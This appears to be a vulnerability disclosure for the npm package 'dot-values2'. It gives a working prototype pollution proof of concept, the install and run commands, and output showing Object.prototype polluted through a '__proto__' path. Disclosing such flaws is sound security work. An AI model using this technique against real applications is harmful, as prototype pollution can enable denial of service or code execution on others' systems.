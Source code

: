 # Description

`dot-values2` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const dotValues = require('dot-values2')

console.log(`Before: ${{}.polluted}`)
dotValues.get({}, '__proto__').polluted = true
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i dot-values2 # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

